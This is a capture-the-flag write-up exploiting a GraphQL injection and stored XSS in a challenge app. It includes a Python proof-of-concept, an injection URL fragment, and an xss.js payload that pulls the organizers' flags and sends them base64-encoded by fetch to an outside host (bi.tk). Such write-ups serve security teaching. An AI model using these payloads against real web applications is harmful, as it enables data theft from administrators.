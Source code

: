 When creating a task in a ctf the description is rendered as HTML but there is
some sanitization.  
The name is rendered as a string but without sanitization.

The function `ctf` in `query.js` is vulnerable to graphql injection.

```javascript=  
async function ctf(id) {  
   return await query(`{  
       wtf(id: ${id}) { # Injection in id here  
           name  
           description  
           challs {  
               name  
               points  
               description  
           }  
       }  
   }`)  
}  
```

We can modify the graphql query an abuse aliases to get name instead of
description

Exploit:  
* Create a WTF (id=2)  
* Create chall with the xss in the name  
* make the admin visit `/?#wtf/2){id,challs{description:name}}a:wtf(id:2`  
* profit

poc.py

```python  
#!/usr/bin/env python  
# type: ignore  
from pwn import *  
import time  
from request import Session  
import re  
import json  
from subprocess import check_output

def jprint(j):  
 print(json.dumps(j, indent=2))

prefix_reg = re.compile("sha1\(([a-f0-9]+)")  
url_reg = re.compile(".* listening on (.*)")

sh = remote("hyper.tasteless.eu", 10301)  
s = Session()

def connect():  
 l = sh.readline().decode()  
 h = prefix_reg.findall(l)[0]  
 cmd = f"go run pow.go {h} 000000"  
 print(cmd)  
 p = check_output(cmd, shell=True).strip()  
 sh.sendline(p)  
 print(sh.readline())  
 l = sh.readline().decode()  
 url = url_reg.findall(l)[0]  
 print(url)  
 return url

url = connect()

def send_query(query):  
 data = {  
   "query": query,  
   "variables": {}  
 }  
  
 r = s.post(url + "graphql", json=data).json()  
 jprint(r)

time.sleep(1)

send_query("""  
mutation register{  
 register(username:"bitk", password:"bitk")  
}

""")  
send_query("""  
mutation authenticate{  
 authenticate(username:"bitk", password:"bitk")  
}

""")

send_query("""  
mutation createWTF{  
 createWTF(input: {name:"xss", description:"xss"}){id}  
}

""")

send_query("""  
mutation createChall{  
 createChall(input: {wtf:2, name:"<iframe srcdoc=\\"<script
src='https://bi.tk/zob/xss.js'></script>\\"></iframe>",
description:"xss"}){id}  
}

""")  
sh.interactive()

```

make the admin visit  `/?#wtf/2){id,challs{description:name}}a:wtf(id:2` to
trigger the javascript

Xss.js  
```javascript  
async function main(){  
   const r = await parent.query(`{  
organizers{  
 wtfs{  
   challs{  
     name  
     flag  
   }  
 }  
}  
}  
`, {})  
   const msg = btoa(JSON.stringify(r.data))  
   await fetch("https://bi.tk/?"+msg, { mode:'no-cors'})  
}

main()

```